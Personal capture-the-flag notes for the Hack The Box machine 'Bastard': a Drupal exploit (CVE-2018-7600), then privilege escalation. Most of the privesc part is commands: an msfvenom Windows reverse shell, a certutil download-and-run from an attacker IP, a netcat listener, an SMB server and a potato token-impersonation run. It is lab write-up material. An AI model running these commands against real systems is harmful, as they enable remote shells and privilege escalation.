 # Enumeration 

## open ports


### Port 80

![[Pasted image 20230119073954.png]]

![[Pasted image 20230119074115.png]]
[CVE-2018-7600](https://www.exploit-db.com/exploits/44449)

![[Pasted image 20230119080608.png]]

![[Pasted image 20230119080625.png]]


# Privesc 
shell is super slow so generating new one using msfvenom and executing it

On Attacker:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=9003 -f exe -o reverse.exe
```

On Target:

```
certutil -urlcache -f http://10.10.16.19/reverse.exe rev.exe
.\rev.exe
```

![[Pasted image 20230119081024.png]]


![[Pasted image 20230119080844.png]]

Another potato


On attacker:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=9004 -f exe -o rev2.exe
nc -lvnp 9004
smbserver.py share .
```
{4991d34b-80a1-4291-83b6-3328366b9097}
On Target:
```
copy \\10.10.16.19\share\jp.exe
copy \\10.10.16.19\share\rev2.exe
.\jp.exe -t * -p .\rev3.exe -l 8002 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

![[Pasted image 20230119084557.png]]
![[Pasted image 20230119084609.png]]



---
Tags: #ctf #htb #potao #Token_impersonation #drupal_7 #CVE-2018-7600
Resources: [Bastard](https://app.hackthebox.com/machines/7) 